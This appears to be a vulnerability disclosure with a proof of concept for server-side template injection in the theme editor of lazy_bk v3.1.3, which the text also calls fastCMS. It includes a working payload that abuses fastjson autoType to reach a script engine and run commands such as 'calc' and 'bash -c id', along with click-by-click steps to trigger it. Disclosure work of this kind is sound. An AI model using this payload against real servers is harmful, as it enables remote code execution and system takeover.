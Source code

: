 target:https://gitee.com/linping0124/lazy_bk version: v3.1.3   
There is a serious vulnerability in the fastCMS system. This vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
There is a Server Side Template Injection vulnerability in the editing function of the theme management menu in the system.  
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/bfbf3ed1-a6da-4a24-a23e-e9c2848224f2">  
However, there is some filtering involved, and using a regular payload will not trigger this vulnerability. We use fastJSON to assist in obtaining ScriptEngine Manager, and then execute any JavaScript code to achieve RCE. The payload is as follows:  


#set(x=com.alibaba.fastjson.parser.ParserConfig::getGlobalInstance())  
#(x.setAutoTypeSupport(true)) #(x.addAccept("javax.script.ScriptEngineManager"))   
#set(x=com.alibaba.fastjson.JSON::parse('{"@type":"javax.script.ScriptEngineManager"}'))  
#set(e=x.getEngineByName("js"))   
#(e.eval('java.lang.Runtime.getRuntime().exec("calc")'))  
base=#((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("var s = [3];s[0] = \"/bin/bash\";  
          	s[1]=\"-c\";s[2] = \"id\";var p =java.lang.Runtime.getRuntime().exec(s);  
          	var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\A\");  
          	var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;"))    

Click edit, then copy the payload and click save.  
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/84516656-03d0-4c27-8750-ac2b24016f37">  
Click the preview button.   
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/ce42948f-daeb-44ce-a98f-59f288e8a8d0">  
Visit URL:http://127.0.0.1/?previewTheme=dolphin. Successfully triggered malicious code, ejected the computer, and successfully verified the vulnerability.  
![image](https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/91ded936-0b30-4cfe-9592-c4ff7f331cb2)





